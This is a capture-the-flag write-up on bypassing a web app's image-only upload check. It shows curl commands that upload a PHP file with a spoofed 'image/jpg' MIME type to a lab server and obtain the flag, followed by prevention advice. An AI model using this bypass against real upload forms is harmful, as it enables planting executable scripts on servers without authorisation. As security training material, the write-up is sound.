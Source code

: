 # Description

Visiting the upload page. We are allowed to upload only images.

But what if we can bypass this and upload a php script that can be executed and give us a reveres shell.

# Attack

We will try to use curl and upload a php script.

```bash
*[main][~/projects/darkly/File Upload Bypass/Ressources]$ curl -i -X POST -F "uploaded=@file.php" -F Upload=Upload "http://10.14.59.83/?page=upload" | grep Your
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  2861    0  2532  100   329  2287k   297k --:--:-- --:--:-- --:--:-- 2793k
<pre>Your image was not uploaded.</pre>
```
As you see, we can upload the php script since there's server side check that checks for the uploaded type.

So what we are going to do is to change the upload type to the allowed uploading type but instead of giving in an image we will send a `file.php`

```bash
*[main][~/projects/darkly/File Upload Bypass/Ressources]$ curl -i -X POST -F "uploaded=@file.php;type=image/jpg" -F Upload=Upload "http://10.14.59.83/?page=upload" | grep flag
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  3057    0  2743  100   314    547     62  0:00:05  0:00:05 --:--:--   720
<pre><center><h2 style="margin-top:50px;">The flag is : 46910d9ce35b385885a9f7e2b336249d622f29b267a1771fbacf52133beddba8</h2><br/><img src="images/win.png" alt="" width=200px height=200px></center> </pre><pre>/tmp/file.php succesfully uploaded.</pre>
```

And we got the flag.


# Prevention

- **File Type Validation:** Implement strict file type validation on the server side. Only allow uploading of specific file types that are necessary for your application. This validation should be based on both file extension and MIME type.

- **Content Disposition:** Set the Content-Disposition header to ensure that uploaded files are treated as attachments rather than executable files. This prevents browsers from interpreting uploaded files as scripts.

- **Rename Files:** Rename uploaded files to a secure format that does not include user-provided content or known extensions. This can prevent attackers from exploiting file name-based vulnerabilities.

- **Server-Side Checks:** Perform server-side checks to ensure that the uploaded file is indeed an image file. Use libraries or tools designed for image validation to ensure that the file is not maliciously crafted to exploit vulnerabilities.
